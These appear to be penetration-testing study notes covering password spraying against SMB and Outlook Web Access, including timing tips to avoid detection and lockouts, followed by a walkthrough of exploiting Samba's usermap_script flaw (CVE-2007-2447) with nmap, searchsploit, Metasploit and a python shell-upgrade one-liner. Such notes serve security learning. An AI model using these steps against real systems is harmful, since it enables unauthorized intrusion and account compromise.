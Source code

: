 
- metasploit **smb_login** scanner module can be used to obtain similar results For passwords spray attacks against SMB services.
- this attack are also known to ve very successful against platforms such as Outlook Web Access or Exchange Portals.
- Metasploit has a module on brute force OWA portals - **owa_login**
- Depending on system configurations, password spray can be detected and thwarted, which its crucial to only attempt one (recommended) to two (maximum) passwords during a single run.
- after attempting a password spray run, if unsuccessful the first time around, wait 45 minutes and try again with new passwords in your list.
- multiple attempts within a certain time-range also result in detection and/or lockouts.

## Exploiting Samba
- Typically provides file sharing services to both windows, and linux users.
- Versions up to 4.6.4 contain vulnerabilities that allow an attacker to take control of an affected server completely;
- recently seen with CVE-2017-7494, aka **SambaCry**

### First - Identify Samba and version
```
nmap --script smb-os-discovery -p 445 <target ip>
```

// once the version of Samba is known, we can start to investigate exactly which vulnerabilities might be present For that particular version.
// searchsploit is a tool For this, its a local database of all exploits that can also be found at exploit-db.com

### find an exploit
```
searchsploit samba 3.0.20 
   // with the version we found earlier
```

- There is a (Username map script command execution) available, and also the metasploit version of the same exploit
- Moreover about this vulnerability- https://www.samba.org/samba/security/CVE-2007-2447.html

### exploit
in metasploit:
```
	use exploit/multi/samba/usermap_script
	set options
	run
	// we should gain a shell with root access
```

### Get a better shell
- even tho we are root, we dont have a decent shell
- so we can execute a python one liner to gives us a proper PTY (Pseudo TTY)

```
python -c "import pty; pty.spawn('/bin/sh')"
```
